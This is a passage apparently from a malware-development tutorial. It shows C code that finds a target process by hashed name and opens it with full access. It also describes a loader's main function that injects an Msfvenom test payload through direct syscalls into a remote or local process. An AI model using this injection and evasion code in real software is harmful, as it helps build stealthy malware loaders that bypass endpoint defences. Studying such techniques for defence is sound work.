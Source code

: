```c
		return FALSE;
	}

	while (TRUE) {

		// Small check for the process's name size
		// Comparing the enumerated process name to what we want to target
		if (SystemProcInfo->ImageName.Length && HASHW(SystemProcInfo->ImageName.Buffer) == HASHW(szProcName)) {
			// Opening a handle to the target process and saving it, then breaking 
			*pdwPid = (DWORD)SystemProcInfo->UniqueProcessId;
			*phProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)SystemProcInfo->UniqueProcessId);
			break;
		}

		// If NextEntryOffset is 0, we reached the end of the array
		if (!SystemProcInfo->NextEntryOffset)
			break;

		// Moving to the next element in the array
		SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)((ULONG_PTR)SystemProcInfo + SystemProcInfo->NextEntryOffset);
	}

	// Freeing using the initial address
	HeapFree(GetProcessHeap(), 0, pValueToFree);

	// Checking if we got the target's process handle
	if (*pdwPid == NULL || *phProcess == NULL)
		return FALSE;
	else
		return TRUE;
}
```

### Main Function

To test the code so far, create `main.c` which will contain the entry point function of the loader along with the usual Msfvenom calc payload.

The following points briefly explain the main function:

- The `InitializeSyscalls` function is the first function to be called. All other functions depend on it to initialize the syscall structure.
    
- If `TARGET_PROCESS` is defined, `GetRemoteProcessHandle` is called to retrieve the target process handle and pass its output to `RemoteMappingInjectionViaSyscalls`.
    
- If `TARGET_PROCESS` is not defined, the code directly calls `RemoteMappingInjectionViaSyscalls` with a pseudo value to the local process handle (`-1`), instructing it to inject the payload locally.
    
